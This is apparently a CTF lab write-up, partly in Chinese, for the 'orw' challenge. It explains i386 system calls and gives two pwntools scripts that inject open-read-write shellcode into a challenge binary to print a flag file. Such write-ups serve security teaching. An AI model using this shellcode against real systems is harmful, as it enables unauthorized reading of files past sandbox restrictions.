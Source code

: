 # Lab2 orw

## 先備知識

### System call

system call function, eax, ebx, ecx, edx

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b7b658a-1e8c-4c3f-8221-7d663eb98134/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9b7b658a-1e8c-4c3f-8221-7d663eb98134/Untitled.png)

### prctl() process control

可以對process進行一些設置，可以限制process的系統調用

### .bss address

0804A040

### assembly code

[官方asm document](http://docs.pwntools.com/en/stable/asm.html)

- open

    ```wasm
    pop ebx ; ebx's value is filename, fd
    mov eax,5 ; open system call number
    mov ecx,0 ; flag
    int 0x80 ; after open finished, fd will return to eax
    ```

- read

    ```wasm
    mov ebx,eax ; fd
    mov ecx,esp ; put buffer in stack
    mov edx,0x60 ; size, we give it randomly
    mov eax,3 ; read system call number
    int 0x80 ; read will return the length
    ```

- write

    ```wasm
    mov edx, eax ; we put the length to edx
    mov ebx,1 ; stdout
    mov eax, 4
    int 0x80
    ```

- exit

    ```wasm
    mov eax,1
    int 0x80
    ```

## ORW (open read write)

調用system call的open read write取得flag

1. 先將打開該檔案open(filepath)
2. 讀取該檔案內容至內存
3. 利用write將內存用stdout輸出

## Solve

### solve 1 with asm

```python
from pwn import *

#r = remote("csie.ctf.tw", 10134)
r = process('./orw.bin')

sc = asm(
"""
    jmp hello
write:
	
	pop ebx 
	mov eax,5
	mov ecx,0 
	int 0x80 

	mov ebx,eax
	mov ecx,esp 
	mov edx,0x60
	mov eax,3 
	int 0x80
	
	mov edx, eax
	mov ebx,1
	mov eax, 4
	int 0x80
	
	mov eax,1
	int 0x80

hello:
    call write
    .ascii "/home/orw/flag"
    .byte 0
""", arch="i386")

r.recvuntil(":")
r.sendline(sc)
print r.recvall()
r.close()
# r.interactive()
```

## solve 2 with shellcraft (sc)

```python
#!/usr/bin/env python
#coding:utf-8

from pwn import *
from pwn import shellcraft as sc
context.log_level = "debug" # debug mode

shellcode = sc.pushstr("flag") # first push the filepath to the top of the stack
shellcode += sc.open("esp", 0, 0) # open the top of stack
shellcode += sc.read("eax", "esp", 0x100) # ( mov ebx,eax , mov ecx,exp , mov edx 0x100 )
shellcode += sc.write(1, "esp", 0x100) # ( mov ebx,1 , mov ecx,esp , mov, edx 0x100 )

io = process("./orw.bin")
#print(asm(shellcode))
io.sendlineafter("shellcode:", asm(shellcode))
print io.recvall()
io.close()
```
